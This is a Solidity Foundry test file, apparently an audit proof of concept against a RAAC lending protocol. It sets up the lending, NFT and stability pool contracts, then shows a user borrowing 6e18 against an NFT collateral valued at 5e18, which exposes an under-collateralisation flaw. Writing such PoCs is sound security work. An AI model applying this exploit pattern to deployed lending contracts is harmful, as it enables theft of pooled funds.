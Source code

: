 ```Solidity
        user3 = makeAddr("user3");
        uint256 initialPrimeRate = 0.1e27;
        raacHousePrices = new RAACHousePrices(owner);
        vm.prank(owner);
        raacHousePrices.setOracle(oracle);
        crvusd = new CrvUSDToken(owner);
        raacNFT = new RAACNFT(address(crvusd), address(raacHousePrices), owner);
        rToken = new RToken("RToken", "RToken", owner, address(crvusd));
        debtToken = new DebtToken("DebtToken", "DT", owner);
        deToken = new DEToken("DEToken", "DEToken", owner, address(rToken));
        vm.prank(owner);
        crvusd.setMinter(owner);
        vm.prank(owner);
        lendingPool = new LendingPool(
                            address(crvusd),
                            address(rToken),
                            address(debtToken),
                            address(raacNFT),
                            address(raacHousePrices),
                            initialPrimeRate
                        );
        rToken.setReservePool(address(lendingPool));
        debtToken.setReservePool(address(lendingPool));
        rToken.transferOwnership(address(lendingPool));
        debtToken.transferOwnership(address(lendingPool));
        stabilityPool = new StabilityPool(address(owner));
        deToken.setStabilityPool(address(stabilityPool));
        raacToken = new RAACToken(owner, 0, 0);
        raacMinter = new RAACMinter(address(raacToken), address(stabilityPool), address(lendingPool), owner);
        stabilityPool.initialize(address(rToken), address(deToken), address(raacToken), address(raacMinter), address(crvusd), address(lendingPool));
        vm.prank(owner);
        raacToken.setMinter(address(raacMinter));
        crvusd.mint(address(attacker), type(uint128).max);
        crvusd.mint(user1, type(uint128).max);
        crvusd.mint(user2, type(uint128).max);
        crvusd.mint(user3, type(uint128).max);
    }

    function test_PocBorrowmoreThanColleteral() public {
        // Providing Liquidity so user1 can borrow
        vm.startPrank(user2);
        crvusd.approve(address(lendingPool), type(uint256).max);
        lendingPool.deposit(type(uint128).max);
        vm.stopPrank();
        // User1 buys/mints nft for 5e18 and loans 6e18 succeeds
        vm.prank(oracle);
        raacHousePrices.setHousePrice(2, 5e18);
        vm.startPrank(user1);
        crvusd.approve(address(raacNFT), 5e18);
        raacNFT.mint(2, 5e18);
        raacNFT.approve(address(lendingPool), 2);
        lendingPool.depositNFT(2);
        lendingPool.borrow(6e18);
    }
}
```
